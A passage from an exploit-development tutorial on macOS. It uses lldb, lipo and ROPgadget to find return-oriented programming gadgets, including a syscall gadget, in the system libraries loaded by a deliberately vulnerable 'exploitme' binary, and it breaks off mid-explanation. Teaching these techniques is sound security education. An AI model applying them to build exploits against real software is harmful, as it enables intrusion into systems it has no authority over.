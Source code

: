 As expected of such a minimal program. But... on OSX at least, you actually get a *lot* to work with, because not only do you have the vulnerable binary, but you also have a lot of shared libraries available:

```
MacBook-Pro:Desktop cbrown$ lldb ./exploitme 
(lldb) target create "./exploitme"
Current executable set to './exploitme' (x86_64).
(lldb) process launch -A false                                                                                                                                                                              Process 12502 launched: './exploitme' (x86_64)
listening...
Process 12502 stopped
* thread #1: tid = 0x1dccf, 0x00007fff940a7762 libsystem_kernel.dylib`__accept + 10, queue = 'com.apple.main-thread', stop reason = signal SIGSTOP
    frame #0: 0x00007fff940a7762 libsystem_kernel.dylib`__accept + 10
libsystem_kernel.dylib`__accept:
->  0x7fff940a7762 <+10>: jae    0x7fff940a776c            ; <+20>
    0x7fff940a7764 <+12>: movq   %rax, %rdi
    0x7fff940a7767 <+15>: jmp    0x7fff940a3c78            ; cerror
    0x7fff940a776c <+20>: retq   
(lldb) image list
[  0] 231E4E5C-E45C-3665-9308-183F8563A990 0x000000010a769000 ./exploitme 
[  1] B1B370A5-479F-3533-8AD7-97B687D4F989 0x00007fff6f928000 /usr/lib/dyld 
[  2] 1B9530FD-989B-3174-BB1C-BDC159501710 0x00007fff936e9000 /usr/lib/libc++.1.dylib 
[  3] 1866C519-C5F3-3D09-8C17-A8F703664521 0x00007fff8ac9f000 /usr/lib/libSystem.B.dylib 
[  4] 88A22A0F-87C6-3002-BFBA-AC0F2808B8B9 0x00007fff8b2b0000 /usr/lib/libc++abi.dylib 
[  5] 45E9A2E7-99C4-36B2-BEE3-0C4E11614AD1 0x00007fff8bb98000 /usr/lib/system/libcache.dylib 
[  6] E789748D-F9A7-3CFF-B317-90DF348B1E95 0x00007fff867f6000 /usr/lib/system/libcommonCrypto.dylib 
[  7] BF8FC133-EE10-3DA6-9B90-92039E28678F 0x00007fff8b00b000 /usr/lib/system/libcompiler_rt.dylib 
[  8] 0C68D3A6-ACDD-3EF3-991A-CC82C32AB836 0x00007fff949d9000 /usr/lib/system/libcopyfile.dylib 
[  9] 5779FFA0-4D9A-3AD4-B7F2-618227621DC8 0x00007fff90c65000 /usr/lib/system/libcorecrypto.dylib 
...
```

This actually has an added side-effect of making your ROP chains easily reusable! So we're gonna look through these libraries for our gadgets. 

If you're on OSX, make sure you extract the right architecture from any universal binary you intend to look in, and only search for gadgets in that:

```
lipo /usr/lib/system/libsystem_kernel.dylib -extract x86_64 -output ./libsystem_kernel.dylib
ROPgadget --binary ./libsystem_kernel.dylib
```

The first thing we should find is our system call gadget since it's the most critical. On OSX, the syscalls are found in */usr/lib/system/libsystem_kernel.dylib*. 

```
0x0000000000011404 : syscall ; ret
```

Also of particular interest are the especially versatile gadgets that just pop values off of the stack into registers. I recommend using the C++ pre-processor to define some basic building blocks with them like so:
